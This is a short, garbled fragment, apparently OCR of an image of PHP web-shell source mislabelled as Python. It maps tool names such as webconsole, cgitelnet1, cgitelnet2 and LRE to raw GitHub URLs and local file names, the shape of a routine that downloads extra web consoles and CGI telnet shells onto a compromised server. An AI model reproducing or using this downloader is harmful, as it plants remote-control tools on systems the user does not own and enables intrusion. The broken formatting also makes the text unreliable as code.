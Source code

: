 ## $name === "webconsole"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/webcon", "webconsole.php");
```
&nbsp;
&nbsp;
## $name === "cgitelnet1"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi1", "idx_cgi/cgitelnet1.idx");
```
&nbsp;
&nbsp;
## $name === "cgitelnet2"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi2", "idx_cgi/cgitelnet2.idx");
```
&nbsp;
&nbsp;
## $name === "LRE"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/makman", "makman.php");
```
